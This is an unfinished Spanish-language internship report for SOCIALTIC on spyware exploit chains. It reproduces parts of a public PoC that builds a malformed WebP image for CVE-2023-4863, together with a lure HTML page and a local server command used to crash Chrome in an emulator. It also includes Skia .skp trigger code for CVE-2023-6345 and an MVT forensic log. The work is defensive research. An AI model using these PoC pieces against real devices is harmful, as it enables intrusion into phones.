





# Proyecto de Aplicación Profesional en SOCIALTIC


Autor: Santiago I. López

Contacto: ismael.lopez@iteso.mx

Mayo x, 2026

Supervisor: Paúl Aguilar

# Introducción

En la presente era digital, tener un dispositivo movil se ha vuelto indispensable. Nos han facilitado varios aspectos de 
nuestra vida, como la comunicación, traslado, banca, entretenimiento, entre más cosas. Por consecuencia, nuestros dispositivos
móviles se han convertido en extensiones de nuestra vida privada, albergando desde conversaciones íntimas hasta datos
más sensibles como la ubicación y salud. El presente reporte tiene como objetivo explicar qué son las
cadenas de explotación (_exploit chains_), cómo se utilizan para vulnerar nuestra privacidad y qué acciones podemos tomar 
a partir de los hallazgos.

# Cadenas de Ataque

Para que un software espía, ahora _spyware_, logre tomar el control total de un teléfono de manera remota, no basta con solo una falla den la seguridad.
Los atacantes deben de encadenar varios fallos, ahora _exploits_, para evadir las defensas del sistema. Una cadena de explotación
se compone generalmente de tres pasos

### 1. Ejecución Remota de Código "_RCE_"
Es el primer paso, el atacante logra ejecutar instrucciones en el dispositivo a distancia, son usualmente en páginas web
comprometidas o en fallas dentro de los servicios de mensajería.

### 2. Escape del _Sandbox_ "_SBX_"
Las aplicaciones de la actualidad funconan en entornos aislados (_sandbox_) para que, si presenta una falla, no afecte el sistema. 
Además, sirve como una medida de seguridad por si llega a vulnerarse una aplicación. El atacante debe de usar un segundo exploit
para salir del aislamiento y ganar más acceso

### 3. Escalada de Privilegios Locales "_LPE_"
El paso final, aquí el atacante obtiene permisos de super usuario, o _root_, lo que le permite instalar el _spyware_ de manera
permanente y persistente.

## Impacto en la Ciudadanía
Este fenómeno no es ajeno a países donde la vigilancia y censura es mayor. En México se han documentado el uso de cadenas contra
científicos que promovían impuestos a bebidas azucaradas [1](https://citizenlab.ca/research/bittersweet-nso-mexico-spyware/),
defensores de derechos humanos que investigan desapariciones y periodistas que denuncian la corrupción [2](https://ejercitoespia.r3d.mx/ejercito-espia/)
Mientras que inicialmente estas cadenas requerían la interacción mínima con el usuario, como dar clic en un enlace, las cadenas
han evolucionado para que ocurran de manera silenciosa, sin que la víctima se de cuenta de dónde pudo ser infectado. (_0-click_)

# Ejemplo de Cadena de Ataque

Se conceptualizó una cadena de ataque de tipo “1 clic”, es decir, que sí requiere interacción con la víctima, pero es mínima. 
La cadena empieza con la víctima recibiendo un enlace a través de diversos medios de comunicación, esta incluye los 
servicios de mensajería, redes sociales, correo electrónico, etc. El mensaje tiene un contenido que asegura que la 
persona entre al vínculo, que lo lleva a una página web maliciosa. El ambiente donde se desarrollaron las pruebas 
de concepto fue en Android Studio. Se utilizó una imagen de Android Open Source Project debido a que las versiones que 
incluían Google Play ya venían con los parches de seguridad.


## Primer Paso - CVE-2023-4863 "LibWebP Buffer Overflow"

CVE-2023-4863 Es una vulnerabilidad de tipo Heap Buffer Overflow para la librería de LibWebP. Ocurre durante el
renderizado de imagenes en Chrome. Sus efectos principales incluyen la corrupción de memoria en el área y un RCE
limitado al sandbox.

### Secuencia de Explotación

El formato WebP sin pérdida (VP8L) utiliza la codificación Huffman para reducir el tamaño de los archivos. Para que el 
proceso de decodificación sea eficiente en dispositivos móviles, la librería libwebp previó a 1.3.2 empleaba tablas de 
búsquedas calculadas previamente en la memoria en vez de utilizar estructuras de árbol binarios tradicionales. Estas 
tablas ya calculadas permiten traducir rápidamente los bits de entrada en los símbolos correspondientes.

El fallo se encuentra en la función BuildHuffmanTable del decodificador VP8L. Esta función es encargada de validar los 
códigos Huffman y organizar la estructura de la tabla de búsqueda en la memoria asignada. Libwebp utiliza un array de 
tamaños previamente calculados llamado kTableSize para determinar cuánta memoria asignar en el heap para las tablas ya 
calculadas. Este array solo tiene en cuenta los tamaños para búsquedas de primer nivel de 8 bits, ignorando las tablas 
de segundo nivel necesarias para códigos más largos. Aunque libwebp permite códigos de hasta 15 bits, el búfer 
preasignado no contempla el espacio adicional para estos desbordamientos de nivel.

Ahora bien, el ataque viene por medio de un árbol Huffman extremadamente desequilibrado. El proceso es el siguiente:

Los datos de la imagen se organizan en cinco “segmentos de alfabeto”, que son las características de los colores: verde, 
rojo, azul, alpha y distancia, cada uno con su propia tabla de búsqueda. Al manipular el tamaño de los códigos en estos 
segmentos, el atacante logra agotar la memoria del heap. Durante el procesamiento del último alfabeto (distancia), la 
función “ReplicateValue”, intenta realizar un OOB write del búfer de huffman_tables. Por último, lo que queda es tomar 
control de los pointers para lograr un RCE.
Esta vulnerabilidad afecta a todas las versiones de Android desde la 11 hasta la 14 previo al parche de seguridad del 6 
de octubre de 2023. Las versiones de Chrome vulnerable son previas a la versión 116.0.5845.187.

### Prueba de Concepto

#### Codigo para Generar la Imagen

Para probar el PoC, se utilizó el código de [DarkNavy “gen_oob_webp.py”](https://github.com/DarkNavySecurity/PoC/blob/main/CVE-2023-4863/gen_oob_webp.py). Este código genera manualmente un archivo .webp 
construyendo cada parte de la imagen bit por bit. El resultado final es un archivo de nombre “oob.webp”, diseñado para 
provocar un error en el proceso de decodificación en WebP, específicamente un out-of-bounds (oob) write en el heap.
A grandes rasgos, el código se puede dividir en cinco bloques

#### Construcción de Bitstreams
El formato VP8L lossless almacena varios valores bit a bit, usando un orden de bits invertido (LSB-first).
El siguiente segmento de código define el método para construir los datos con estos requerimientos:

```python
def bit(val, len=-1):
    if len == -1:
        return bin(val)[2:][::-1]
    else:
        return bin(val)[2:].zfill(len)[::-1]
```
Esta función convierte un numero a binario, lo rellena a una longitud especifica e invierte el orden de los bits.
Luego, en otra función, los bits se convierten en bytes:

```python
def bitstream_to_bytearray(bitstream: str) -> bytearray:
    # Pad the bitstream to make its length a multiple of 8
    while len(bitstream) % 8 != 0:
        bitstream += "0"

    # Convert bitstream to bytearray
    byte_array = bytearray()
    for i in range(0, len(bitstream), 8):
        byte_chunk = bitstream[i : i + 8][::-1]
        byte_value = int(byte_chunk, 2)
        byte_array.append(byte_value)

    return byte_array
```
Ambas permiten construir el flujo de bits de la imagen WebP.

#### Construcción del Contenedor WebP
El archivo WebP se basa en el contenedor _RIFF_. El código crea este encabezado manualmente en la siguiente sección:
```python
RIFF_header = b"RIFF"
RIFF_header += pack("I", webp_chunk_size)
RIFF_header += b"WEBPVP8L"
RIFF_header += pack("I", lossless_stream_size)
```
Esto produce un archivo con la estructura válida y reconocible por los sistemas

#### Construcción de Tablas de Compresión

Como descrito en la explicación teórica, el formato VP8L usa codificación Huffman para comprimir los datos de imagen. 
El script construye manualmente las longitudes de estos códigos, ejemplo del código:
```python
code_length_green = bit(0)
code_length_green += (
    "0000" * 1
    + "1000" * 235
    + "1001" * 37
    + "1010"
    + "1011"
    + "1100"
    + "1101" * 64
    + "1110" * 4
)
code_length_red = bit(0)
code_length_red += (
    "0000"
    + "0001"
    + "1000" * 67
    + "1001" * 117
    + "1010"
    + "1011"
    + "1100"
    + "1101" * 65
    + "1110" * 2
)
code_length_dist = bit(0)
```
#### Inserción de la Secuencia que Provoca la Corrupción de Memoria

La función encargada de esto es:
```python
def overwrite(offset, value=0x27)
```
Ésta construye una secuencia de bits diseñada para que el decodificador interprete incorrectamente las tablas de Huffman
calcule offsets erróneos y termine escribiendo datos fuera del heap. El resultado se inserta en el flujo comprimido en 
la siguiente línea:
```python
code_length_dist += overwrite(0, 3)
```

#### Ensamblado Final del Archivo
Finalmente, el código combina todos los componentes y escribe el archivo final *"oob.webp"*
```python
image = bytearray()
image.extend(RIFF_header)
image.extend(image_header)
image.extend(image_stream)

webp_chunk_size = len(image) - 8
lossless_stream_size = webp_chunk_size - 13

# edit image's size
image[4:8] = pack("I", webp_chunk_size)
image[16:20] = pack("I", lossless_stream_size)

print(image)
with open("oob.webp", "wb") as f:
    f.write(image)
```

#### Modificación al PoC
Se agregó una función en el código para generar una imagen que sí causara el crash dentro del navegador del dispositivo 
emulado. Originalmente tiene un tamaño lógico de 1x1 bits


Fue posible aumentar el tamaño lógico de la imagen modificando el header de VPL8. Originalmente, esto ocurre en la 
siguiente porción de código:

```python
image_header = b"\x2f"
image_header += bitstream_to_bytearray("0" * 28 + "1000")
```
Éste incluye el ancho (width), largo (height), Alpha flag, y la versión.
Sin embargo, esto es reemplazado parcialmente por una nueva función “_nuevo_header()_”
```python
def nuevo_header(width, height):
    width_bits = bit(width - 1, 14)
    height_bits = bit(height - 1, 14)
    alpha = bit(0, 1)
    version = bit(0, 3)

    bitstream = width_bits + height_bits + alpha + version
    return b"\x2f" + bitstream_to_bytearray(bitstream)
```
El formato no guarda directamente el ancho y alto, sino el valor menos uno, usando 14 bits para cada dimensión. El 
método bit(, 14) convierte el valor en 14 bits invertidos (LSB-first), que es el orden usado por VP8L. Después se añaden
los campos de Alpha y versión para completar los requerimientos. Al final, todos los campos se concatenan para formar 
el encabezado. El orden es importante ya que sigue la estructura definida para el formato:

| Campo            | Tamaño  |
|------------------|---------|
| Width-1 [ANCHO]  | 14 bits |
| Height-1 [LARGO] | 14 bits |
| ALPHA            | 1 bit   |
| VERSION          | 3 bits  |

#### Ejecución del PoC
Se creó el siguiente HTML para demostrar el crasheo:
```html
<html>
<body>

<h2>NOTICIA DE ULTIMO MOMENTO</h2>

<script>
    for (let i = 0; i < 2; i++) {
        let img = document.createElement("img");
        img.src = "big_bad.webp?cache=" + Math.random();
        document.body.appendChild(img); }
    window.location.href = 'exptest.html';
</script>

</body>
</html>
```
Después, se creó el servidor básico de HTTP utilizando el comando de python:
```bash
python3 -m http.server 8000
```

Desde el Android Studio, se accede al Chrome vulnerable previamente instalado. Se accede a la IP de la máquina virtual 
al puerto 8000 y se accede al archivo HTML. Al principio no sucede algo, sin embargo, al recargar la página se ve lo 
siguiente:


Y al revisar logcat, se encuentra lo siguiente el crash con la señal SIGSEGV código 1 (SEGV_MAPERR), además de 
confirmación de que el proceso del sandbox de Chrome murió


Al mostrar que el sandbox process murió, se confirma el correcto funcionamiento parcial del PoC de CVE-2023-4863.

## Segundo Paso - CVE-2023-6345 “SKIA INTEGER OVERFLOW”

CVE-2023-6345 es una vulnerabilidad crítica que afectó el motor gráfico de SKIA en Google Chrome, impactando 
principalmente a dispositivos Android y otros sistemas basados en Chromium.

Esta vulnerabilidad es un desbordamiento de enteros que puede permitir un escape del sandbox y suele ser parte de 
una cadena. Primero, el atacante compromete el proceso de renderizado, y luego usa esta vulnerabilidad para saltar al 
siguiente paso

### Secuencia de Explotación

El proceso comienza cuando la librería intenta dibujar una imagen que contiene múltiples operaciones 
“DRAW_VERTICES_OBJECT”. Estas operaciones se utilizan para renderizar gráficos complejos mediante “mallas” de vértices.

Para ser más eficiente, SKIA utiliza otra función llamada “_MeshOp::onCombineIfPossible_”. Su trabajo es combinar la 
operación de la malla actual con las siguientes para procesarlas juntas. Durante el proceso, la función suma los 
recuentos de vértices e índices con las variables _fVertexCount_ y _fIndexCount_ respectivamente, de ambas operaciones.

El error viene en que _fVertexCount_ está definido como un entero de 32 bits. La función _onCombineIfPossible_ suma los 
valores de las mallas sin verificar si el resultado supera el límite que un entero de 32 bits puede almacenar. Cuando la 
suma excede, ocurre un _wrap-around_, resultando en un número más pequeño que el que debería ser.

Después, en una siguiente operación “_MeshOp::onPrepareDraws_”, el sistema reserva un búfer de memoria 
(un “_skgpu::VertexWriter_”) basado en el número erróneo de la función anterior. En este punto, el espacio de memoria 
reservado es insuficiente para contener todos los datos.

Finalmente, el sistema procede a escribir los vértices de cada malla individual en el búfer asignado. Como el búfer es 
de espacio insuficiente, los datos empiezan a escribir fuera de los límites, invadiendo el heap. En una ejecución normal 
de seguridad, el proceso se detendría, pero en las versiones comerciales de Chrome se eliminan por rendimiento. El 
atacante puede manipular este desbordamiento para sobreescribir objetos en la memoria, efectivamente ejecutando código 
fuera del sandbox.

Desafortunadamente, no se encontraron PoCs funcionales para emuladores móviles que involucren CVE-2023-6345. El más 
cercano proviene de 
[Google Project 0](https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2023/CVE-2023-6345.html), pero 
utiliza la librería directamente para demostrarlo en lugar de una prueba recreable en dispositivos.

### Prueba de Concepto

Primero, se compila SKIA con ASAN, para que los mensajes vengan con más contexto. Después, se genera un script para 
crear una imagen .skp. Un archivo .skp es una grabación de comandos de dibujo. En lugar de guardar una imagen como tal,
guarda instrucciones para crear dicha imagen; cuando Chrome lo abre, reproduce estas instrucciones.

El código proporcionado por el artículo genera manualmente un .skp válido, pero con datos específicos para forzar a SKIA
 a calcular mal el tamaño de memoria necesario. El script consta de diferentes secciones:
- Header
- Factory
- Buffers (Paint & Vertices)
- Reader
- EOF

#### Header

El header hace que el archivo se haga válido para SKIA

```bash
info = b'skiapict'
info += p32(kSkBlenderInSkPaint)
info += f32(0)  # left
info += f32(0)  # top
info += f32(30) # right
info += f32(30) # bottom
```

Este define el tipo de archivo, la versión y las dimensiones del canvas

#### Factory

Esta parte define objetos qye sib necesarios para cumplir con el formato:

```bash
factory = tag('fact')
factory += p32(1)
factory += p32(1)
factory += p8(len(name)) 
factory += name
```

#### Paint Buffer

Configura las propiedades del dibujo

#### Vertices Buffer

Es en este apartado donde comienza la preparación del exploit. El archivo define una gran cantidad de vertices:
```bash
vertexCount = 1 << 16  # ¡65536 vertices!
```
Esto tiene diversos efectos, como aumentar el tamaño de los datos a procesar y amplifica cualquier otro cálculo que se 
base en este valor.

#### Reader
Esta es la sección que hace _trigger_ a la vulnerabilidad. En ella se tienen instrucciones de dibujo repetidas.
```bash
reader_ops = reader_op * (INT32_MAX // vertexCount + 1)
```
El +1 es el que termina provocando el overflow.

El fallo ocurre al SKIA calcularo cuánta memoria debería usar:
```bash
total_size = op_count * vertexCount;
```
Ambos valores son enormes, lo que produce el overflow de entero, el resultado se envuelve y se obtiene un número
incorrectamente pequeño

Al tener la librería con ASAN compilada y el archivo .skp, se procede a parsear la imagen SKIA:

```bash
$ ./skia/out/asan/skpbench --src poc.skp --config gles
```

Lo que regresa el siguiente resultado:
```bash
   accum    median       max       min   stddev  samples  sample_ms  clock  metric  config    bench  
../../src/gpu/ganesh/ops/DrawMeshOp.cpp:1225:18: runtime error: signed integer overflow: 2146435072 + 1048576 cannot be represented in type 'int'  
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior ../../src/gpu/ganesh/ops/DrawMeshOp.cpp:1225:18 in
```

## Tercer Paso - CVE -

# Análisis Forense

Primero, se volvió a crear un entorno en blanco para lograr observar los efectos, esto se hace debido a que el anterior
dispositivo fue parte del desarrollo del PoC y, por lo tanto, tuvo varios errores que pueden afectar un análisis de la
prueba final.


Después, se instaló el apk del Chrome vulnerable. Se obtuvo del sitio APKmirror, la versión exacta fue 116.0.5845.114.
Una vez con el apk, se le instaló directamente al dispositivo con

```bash
adb install chrome_vulnerable.apk
```
La extracción se creó en base al _how-to_ publicado por [SocialTIC](https://forensics.socialtic.org/how-tos/04-how-to-extract-with-androidqf/index.html).
Con Chrome instalado, se descargaron los binarios directamente del repositorio de la herramienta [AndroidQF](https://github.com/mvt-project/androidqf/)

Se ejecutó luego esta aplicación. Como es un dispositivo virtual, y hasta cierto punto “desechable”, se optó por no 
realizar una copia de seguridad, sin embargo, se recomienda hacerlo cuando se trate de un dispositivo real.



Se siguió el proceso de verificación, asegurando que los errores se mantengan a eventos no relevantes en command.log. 
Luego, se pasó al archivo aquisition.json y se confirmó que su contenido sea adecuado




Por último, se comprobó la creación de todos los archivos esperados:

*A la izquierda, archivos y carpetas esperados, derecha los generados.*

Al hacer la comparación y que estén igual, se pone en marcha la cadena.


*Crash de CVE-2023-4863*

Una vez finalizado, se repite el mismo proceso para realizar la extracción ahora del emulador atacado.


*Ambas extracciones, empezando con a09 es el limpio, 63f es el post explotación*


```bash
        MVT - Mobile Verification Toolkit
                https://mvt.re
                Version: 2.7.0
                You have not yet downloaded any indicators, check the `download-iocs` command!

22:22:30 INFO     [mvt.android.cmd_check_androidqf] Loaded a total of 0 unique indicators                                          
INFO     [mvt] Checking AndroidQF acquisition at path: a09516af-6a66-4df3-a2ca-2ee9f789b903                               
INFO     [mvt.android.modules.androidqf.aqf_packages] Running module AQFPackages...                                       
INFO     [mvt.android.modules.androidqf.aqf_packages] Found 163 packages in packages.json                                 
INFO     [mvt.android.modules.androidqf.aqf_processes] Running module AQFProcesses...                                     
INFO     [mvt.android.modules.androidqf.aqf_getprop] Running module AQFGetProp...                                         
INFO     [mvt.android.modules.androidqf.aqf_getprop] Extracted a total of 415 properties                                  
INFO     [mvt.android.modules.androidqf.aqf_getprop] gsm.sim.operator.alpha: T-Mobile                                     
INFO     [mvt.android.modules.androidqf.aqf_getprop] gsm.sim.operator.iso-country: us                                     
INFO     [mvt.android.modules.androidqf.aqf_getprop] persist.sys.timezone: GMT                                            
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.boot.serialno: EMULATOR36X4X9X0                                   
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.build.version.sdk: 30                                             
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.build.version.security_patch: 2021-08-05                          
WARNING  [mvt.android.modules.androidqf.aqf_getprop] This phone has not received security updates for more than six months
(last update: 2021-08-05)                                                                                        
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.product.cpu.abi: x86_64                                           
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.product.locale: en-US                                             
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.product.vendor.manufacturer: unknown                              
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.product.vendor.model: Android SDK built for x86_64                
INFO     [mvt.android.modules.androidqf.aqf_getprop] ro.product.vendor.name: sdk_phone_x86_64                             
INFO     [mvt.android.modules.androidqf.aqf_settings] Running module AQFSettings...                                       
INFO     [mvt.android.modules.androidqf.aqf_settings] Identified 208 settings                                             
WARNING  [mvt.android.modules.androidqf.aqf_settings] Found suspicious "global" setting "verifier_verify_adb_installs = 0"
(disabled Google Play Services apps verification)                                                                
INFO     [mvt.android.modules.androidqf.aqf_files] Running module AQFFiles...                                             
22:22:32 INFO     [mvt.android.modules.androidqf.aqf_files] Found a total of 83567 files                                           
22:22:34 INFO     [mvt.android.modules.androidqf.sms] Running module SMS...                                                        
INFO     [mvt.android.modules.androidqf.sms] No backup data found                                                         
INFO     [mvt.android.modules.androidqf.root_binaries] Running module RootBinaries...                                     
INFO     [mvt.android.modules.androidqf.root_binaries] Found 1 root binaries                                              
WARNING  [mvt.android.modules.androidqf.root_binaries] Found root binary "su" at path "/system/xbin/su"                   
WARNING  [mvt.android.modules.androidqf.root_binaries] Device shows signs of rooting with 1 root binaries found           
INFO     [mvt.android.modules.androidqf.mounts] Running module Mounts...                                                  
INFO     [mvt.android.modules.androidqf.mounts] Found mount information file:                                             
a09516af-6a66-4df3-a2ca-2ee9f789b903/mounts.json                                                                 
INFO     [mvt.android.modules.androidqf.mounts] Extracted a total of 99 mount entries                                     
INFO     [mvt.android.modules.androidqf.mounts] Data partition: /data mounted as ext4 with options:                       
rw,seclabel,nosuid,nodev,noatime,resgid=1065,errors=panic                                                        
INFO     [mvt.android.modules.androidqf.mounts] Parsed 99 mount entries                                                   
INFO     [mvt.android.modules.bugreport.dumpsys_accessibility] Running module DumpsysAccessibility...                     
INFO     [mvt.android.modules.bugreport.dumpsys_accessibility] Identified a total of 0 accessibility services             
INFO     [mvt.android.modules.bugreport.dumpsys_activities] Running module DumpsysActivities...                           
INFO     [mvt.android.modules.bugreport.dumpsys_activities] Extracted 525 package activities                              
INFO     [mvt.android.modules.bugreport.dumpsys_appops] Running module DumpsysAppops...                                   
22:22:35 INFO     [mvt.android.modules.bugreport.dumpsys_appops] Identified a total of 20 packages in App-Ops Manager              
INFO     [mvt.android.modules.bugreport.dumpsys_battery_daily] Running module DumpsysBatteryDaily...                      
INFO     [mvt.android.modules.bugreport.dumpsys_battery_daily] Extracted a total of 0 battery daily stats                 
INFO     [mvt.android.modules.bugreport.dumpsys_battery_history] Running module DumpsysBatteryHistory...                  
INFO     [mvt.android.modules.bugreport.dumpsys_battery_history] Extracted a total of 35 battery history records          
INFO     [mvt.android.modules.bugreport.dumpsys_dbinfo] Running module DumpsysDBInfo...                                   
INFO     [mvt.android.modules.bugreport.dumpsys_dbinfo] Extracted a total of 300 database connection pool records         
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] Running module DumpsysGetProp...                                 
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] Extracted 696 Android system properties                          
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] gsm.sim.operator.alpha: T-Mobile                                 
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] gsm.sim.operator.iso-country: us                                 
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] persist.sys.timezone: GMT                                        
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.boot.serialno: EMULATOR36X4X9X0                               
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.build.version.sdk: 30                                         
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.build.version.security_patch: 2021-08-05                      
WARNING  [mvt.android.modules.bugreport.dumpsys_getprop] This phone has not received security updates for more than six   
months (last update: 2021-08-05)                                                                                 
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.product.cpu.abi: x86_64                                       
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.product.locale: en-US                                         
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.product.vendor.manufacturer: unknown                          
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.product.vendor.model: Android SDK built for x86_64            
INFO     [mvt.android.modules.bugreport.dumpsys_getprop] ro.product.vendor.name: sdk_phone_x86_64                         
INFO     [mvt.android.modules.bugreport.dumpsys_packages] Running module DumpsysPackages...                               
INFO     [mvt.android.modules.bugreport.dumpsys_packages] Found package "android" requested 20 potentially dangerous      
permissions                                                                                                      
INFO     [mvt.android.modules.bugreport.dumpsys_packages] Found package "com.android.dialer" requested 10 potentially     
dangerous permissions                                                                                            
INFO     [mvt.android.modules.bugreport.dumpsys_packages] Extracted details on 164 packages                               
INFO     [mvt.android.modules.bugreport.dumpsys_platform_compat] Running module DumpsysPlatformCompat...                  
INFO     [mvt.android.modules.bugreport.dumpsys_platform_compat] Found 0 uninstalled apps                                 
INFO     [mvt.android.modules.bugreport.dumpsys_receivers] Running module DumpsysReceivers...                             
INFO     [mvt.android.modules.bugreport.dumpsys_receivers] Extracted receivers for 137 intents                            
INFO     [mvt.android.modules.bugreport.dumpsys_receivers] Found a receiver to intercept incoming SMS messages:           
"com.android.messaging/.receiver.AbortSmsReceiver"                                                               
INFO     [mvt.android.modules.bugreport.dumpsys_receivers] Found a receiver to intercept incoming SMS messages:           
"com.android.messaging/.receiver.SmsReceiver"                                                                    
INFO     [mvt.android.modules.bugreport.dumpsys_receivers] Found a receiver monitoring outgoing calls:                    
"com.android.dialer/.interactions.UndemoteOutgoingCallReceiver"                                                  
INFO     [mvt.android.modules.bugreport.dumpsys_adb_state] Running module DumpsysADBState...                              
INFO     [mvt.android.modules.bugreport.dumpsys_adb_state] Identified a total of 6 trusted ADB keys                       
INFO     [mvt.android.modules.bugreport.fs_timestamps] Running module BugReportTimestamps...                              
INFO     [mvt.android.modules.bugreport.fs_timestamps] Extracted a total of 141 filesystem timestamps from bugreport.     
INFO     [mvt.android.modules.bugreport.fs_timestamps] The BugReportTimestamps module does not support checking for       
indicators                                                                                                       
INFO     [mvt.android.modules.bugreport.tombstones] Running module Tombstones...                                          
ERROR    [mvt.android.modules.bugreport.tombstones] Unable to find any tombstone files. Did you provide a valid bugreport
archive?                                                                                                         
WARNING  [mvt.android.cmd_check_androidqf] Skipping backup modules as no backup.ab found in AndroidQF data.               
22:22:36 INFO     [mvt.android.cmd_check_androidqf] Please disable Developer Options and ADB (Android Debug Bridge) on the device  
once finished with the acquisition. ADB is a powerful tool which can allow unauthorized access to the device.    
WARNING   NOTE: Detected indicators of compromise. Only expert review can confirm if the detected indicators are signs of
an attack.

                  Please seek reputable expert help if you have serious concerns about a possible spyware attack. Such support is  
                  available to human rights defenders and civil society through Amnesty International's Security Lab at            
                  https://securitylab.amnesty.org/get-help/?c=mvt                                                                  
         WARNING  [mvt] The analysis of the AndroidQF acquisition produced 1 detections!
```
# Recomendaciones

# Conclusiones

# Referencias
